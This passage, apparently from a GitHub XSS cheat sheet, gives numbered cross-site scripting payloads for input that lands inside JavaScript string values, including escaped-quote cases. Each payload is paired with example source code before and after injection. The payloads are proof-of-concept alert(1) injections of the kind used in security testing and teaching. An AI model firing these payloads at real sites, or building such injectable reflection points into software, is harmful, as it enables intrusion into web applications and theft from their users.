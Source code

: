 * Example source code

```html
<script>
    var sitekey = 'REFLECTED_HERE';
</script>
```

* After input the payload

```html
<script>
    var sitekey = '</script><script>alert(1)</script>';
</script>
```

## **XSS Cheat Sheet (Advanced)**

7. Use when input lands in a script block, inside a string delimited value.

```html
'-alert(1)-'
'/alert(1)//
```

* Example source code

```html
<script>
    var sitekey = 'REFLECTED_HERE';
</script>
```

* After input the payload

```html
<script>
    var sitekey = ''-alert(1)-'';
</script>
```

8. Same like Number 7. But inside a string delimited value but quotes are escaped by a backslash.

```html
\'alert(1)//
```

* Example source code

```html
<script>
    var sitekey = 'REFLECTED_HERE';
</script>
```

* If we input payload '-alert(1)-' it will be like this

```html
<script>
    var sitekey = '\'-alert(1)-\'';
</script>
```
